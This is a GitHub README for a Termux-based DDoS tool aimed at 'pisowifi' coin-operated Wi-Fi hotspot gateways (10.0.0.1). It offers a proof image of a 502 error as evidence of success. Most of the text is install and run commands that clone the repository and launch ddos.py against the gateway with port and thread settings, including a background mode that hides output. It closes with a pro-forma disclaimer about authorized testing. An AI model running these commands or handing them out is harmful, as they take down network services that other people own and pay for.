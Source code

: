 # Pisowifi DDOS
10.0.0.1 = 502 Bad Gateway Error

<div align="center">
<img src="https://github.com/xiv3r/pisowifi-ddos/blob/main/image/proof.png">
</div>

# Requirements
- Termux

# Manual Install
```
pkg update && pkg upgrade -y
```
```
pkg install git python python-pip -y
```
```
git clone https://github.com/xiv3r/pisowifi-ddos.git
```
```
cd pisowifi-ddos
```
```
python ddos.py
```

# Auto Install
```
pkg update && pkg upgrade -y && pkg install git python python-pip -y && git clone https://github.com/xiv3r/pisowifi-ddos.git && cd pisowifi-ddos && python ddos.py
```
# Run
```
cd ~/pisowifi-ddos
```
```
python ddos.py -s 10.0.0.1 -p 80 -t 135
```
### Alternative 
> Background mode

```
python ddos.py -s 10.0.0.1 -p 80 -t 135 >  /dev/null 2>&1 &
```
> To kill the process
```
pkill -f python
```

<div align="center">
<img src="https://github.com/xiv3r/pisowifi-ddos/blob/main/image/ddos.png">
</div>

### Disclaimer
`"This tool is intended solely for ethical cybersecurity purposes, such as penetration testing, vulnerability assessments, and authorized research. Unauthorized use to disrupt networks, services, or systems is illegal and violates cybersecurity laws. Misuse may result in severe legal penalties, including fines and imprisonment. Always obtain explicit permission before testing any system. By using this tool, you agree to comply with all applicable laws and assume full responsibility for your actions."`
